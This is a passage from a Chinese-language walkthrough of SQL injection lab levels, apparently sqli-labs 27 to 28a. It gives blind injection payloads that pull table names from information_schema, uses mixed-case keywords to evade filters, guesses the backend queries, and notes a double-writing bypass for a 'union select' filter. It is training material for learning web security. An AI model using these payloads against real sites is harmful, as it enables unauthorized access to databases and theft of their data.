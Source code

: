 ```
?id=1"and(substr((SeLeCt(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),1,1)='s')="1
```

> 此处通过`=`来判断整体是否相等，





猜测后端sql：

```
select * from users where id="前端传来的数据" limit 0,1;
```





#### 28.

> 此题和27题基本相似，只是27题包裹数据是用`""`双引号进行包裹。而此处是用`('')`进行包裹。



基本的注入思想都相同。



不懂的话，详情看27题



payload:

```
?id=1')and(substr((select(group_concat(table_name))from(information_schema.tables)where(table_schema=database())),1,1)='s')=('1
```

> 此题的payload和27题只有闭合的符号不一样。





猜测后端sql语句：

```
select * from users where id=('前端传来的数据') limit 0,1;
```







#### 28.a



> 莫名奇妙的此题很简单，可能是接下来的题要开始难了。



此题只做了过滤一个关键词`union select`。甚至分别的`union`和`select`都没有做过滤。

所以此题可以`union`注入(ps.双写绕过)，盲注，报错注入。
